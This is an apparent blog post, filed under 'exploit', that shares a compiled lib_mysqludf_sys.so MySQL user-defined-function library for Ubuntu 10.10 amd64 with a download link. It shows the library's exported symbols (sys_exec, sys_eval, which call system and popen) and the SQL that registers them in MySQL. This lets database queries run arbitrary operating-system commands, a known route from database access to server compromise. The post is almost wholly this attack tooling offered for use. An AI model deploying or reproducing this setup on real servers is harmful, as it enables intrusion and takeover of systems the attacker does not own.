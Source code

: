 title: "ubuntu 10.10 amd64 编译的UDF"
date: 2014-01-07 19:21:30
tags:
id: 470
comment: false
categories:
  - exploit
---

<pre class="brush:cpp">root@xserver:~# nm -D lib_mysqludf_sys.so 
                 w _Jv_RegisterClasses
0000000000202078 A __bss_start
                 w __cxa_finalize
                 w __gmon_start__
                 U __stack_chk_fail
0000000000202078 A _edata
0000000000202088 A _end
0000000000001248 T _fini
0000000000000a20 T _init
                 U fgets
                 U free
                 U getenv
0000000000000c4f T lib_mysqludf_sys_info
0000000000000c45 T lib_mysqludf_sys_info_deinit
0000000000000bfc T lib_mysqludf_sys_info_init
                 U malloc
                 U memcpy
                 U pclose
                 U popen
                 U realloc
                 U setenv
                 U strlen
                 U strncpy
0000000000001063 T sys_eval
0000000000001059 T sys_eval_deinit
0000000000000ff2 T sys_eval_init
0000000000000fc3 T sys_exec
0000000000000fb9 T sys_exec_deinit
0000000000000f52 T sys_exec_init
0000000000000d02 T sys_get
0000000000000cf8 T sys_get_deinit
0000000000000c9b T sys_get_init
0000000000000e81 T sys_set
0000000000000e56 T sys_set_deinit
0000000000000d65 T sys_set_init
                 U system</pre>
<pre class="brush:sql">DROP FUNCTION IF EXISTS lib_mysqludf_sys_info;
DROP FUNCTION IF EXISTS sys_get;
DROP FUNCTION IF EXISTS sys_set;
DROP FUNCTION IF EXISTS sys_exec;
DROP FUNCTION IF EXISTS sys_eval;

CREATE FUNCTION lib_mysqludf_sys_info RETURNS string SONAME 'lib_mysqludf_sys.so';
CREATE FUNCTION sys_get RETURNS string SONAME 'lib_mysqludf_sys.so';
CREATE FUNCTION sys_set RETURNS int SONAME 'lib_mysqludf_sys.so';
CREATE FUNCTION sys_exec RETURNS int SONAME 'lib_mysqludf_sys.so';
CREATE FUNCTION sys_eval RETURNS string SONAME 'lib_mysqludf_sys.so';</pre>
[lib_mysqludf_sys](http://lpcdma.com/wp-content/uploads/2014/01/lib_mysqludf_sys.zip)

&nbsp;